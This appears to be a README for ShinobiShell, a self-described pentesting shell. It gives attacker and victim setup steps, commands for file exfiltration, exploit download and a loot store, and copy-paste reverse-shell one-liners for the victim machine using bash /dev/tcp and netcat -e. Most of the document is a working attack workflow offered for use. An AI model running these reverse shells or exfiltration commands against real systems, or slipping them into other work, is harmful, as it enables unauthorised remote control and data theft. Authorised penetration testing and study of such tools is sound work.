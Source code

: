 # ShinobiShell
An experimental shell that handles file exfiltration, exploit injection and various other obnoxious tasks.
```
usage: PROG [options]

Shinobi shell is a shell specifically designed to make exfiltration, proxying,
persistance and other pentesting actions easier.

optional arguments:
  -h, --help            show this help message and exit
  -t, --ttyCheat        Shows tty shell cheat sheet (need a tty shell for shinobi shell to work)
  -c, --connect         Flag that indicates a reverse shell connection (use this on victim machine)
  -l LISTEN, --listen LISTEN
                        Starts Shinobi Shell listener on port passed in
  -k, --key             Will create an encrpyted tunnel if encrpytion libs available
  -r SERVERADDRESS, --serveraddress SERVERADDRESS
                        Local IP Address used for universal reverse shell
                        handler (optional - use if different than default)
```
## Start your server first:

### Server (Attacking box) 
`./shinobishell.py -l 4443 -k`

`-l` Port server will listen on

`-k` Requesting an encrypted tunnel server


## OPTION 1: Run Shinobi Shell manually on the victim machine

Client (Penetrated box) 
`./shinobishell.py -c -k ` 

`-c` Connect back to a server

`-k` Try and make an encrytped tunnel

For both server and client, you'll be propmted for a password when using `-k`

For `-c` you will be prompted at run time for the server address

Both `-c` and `-k` were moved to runtime inputs to prevent leaking attacking machine address and key in bash history

## OPTION 2: Start a Shinobi Shell listener on your attacking machine and send it a shell

### Attacking Machine

`./shinobishell.py -a`
> Shinobi Tunnel Plaintext ~~ Be aware

> Which port to listen on: 1000

> What is the ShinobiServer address:port combination: 127.0.0.1:443


### Victim Machine

Send a reverse shell 

(tested and known to work)

`/bin/bash -i >& /dev/tcp/127.0.0.1/1000 0>&1`

`nc 127.0.0.1 1000 -e /bin/bash`

`nc 127.0.0.1 1000 -e /bin/sh`


## -h --help Help output

```
Shinobi Shell v1.0
Author: Anthony Russell
Contact: Twitter @DotNetRussell
Blog: https://DotNetRussell.com  (don't hack me bro)

Commands:

help -                      displays help information
machineinfo -               displays a series of machine variables to help with priv esc
searchsploit -              <search text> sends a searchsploit command back to your attacking machine and returns the results through shinobi tunnel
exfil <file name> -         exfiltrates a file back to your attacking machine via shinobi tunnel
ssdownload <exploit path> - downloads a search sploit exploit from your attacking machine
download <url> -            does a wget for your file on your attacking machine and then transfers it to you over shinobi tunnel
linenumdownlods -           linenum.sh to the Shinobi Server and then transfers it back to the client

Loot Chest:

loot store <key> <value> -  stores a key value pair in your loot chest
loot <key> -                gets a loot value
loot show -                 shows everything in loot chest

NOTE: Loot chest auto syncs with attacking machine
	
Auto Aliases
lsa == ls -la
```
